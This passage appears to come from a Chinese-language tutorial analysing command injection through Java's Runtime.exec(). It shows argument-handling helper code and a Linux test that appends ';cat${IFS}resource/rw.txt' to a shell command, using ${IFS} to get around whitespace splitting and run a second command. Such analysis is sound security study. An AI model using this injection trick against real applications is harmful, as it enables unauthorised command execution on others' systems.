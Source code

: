 ```java
        BufferedReader br = new BufferedReader(isr);
        String line = br.readLine();
        while (line != null){
            System.out.println(line);
            line = br.readLine();
        }
    }

    private static byte[] toCString(String str) {
        byte[] bytes  = str.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }

    private static byte[] getArgBlock(String[] cmdarray){
        byte[][] args = new byte[cmdarray.length-1][];
        int size = args.length;
        for (int i = 0; i < args.length; i++) {
            args[i] = cmdarray[i+1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }
        return argBlock;
    }
}

```

## Runtime.exec()本地命令执行漏洞调用分析

由于String转String[]的过程中是以`\t\n\r\f`截断的，只要绕过这五类分隔符就能拼接指令执行：



###  Linux测试

```java
package cmd;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class cmdTest3 {
    public static void main(String[] args) throws  Exception {
        String hacker = ";cat${IFS}resource/rw.txt";
        String cmd = "/bin/sh -c whoami" + hacker;
        InputStream is = Runtime.getRuntime().exec(cmd).getInputStream();
        InputStreamReader isr = new InputStreamReader(is);
        BufferedReader br = new BufferedReader(isr);
        String line = br.readLine();
        while (line != null) {
            System.out.println(line);
            line = br.readLine();
        }
    }
}
```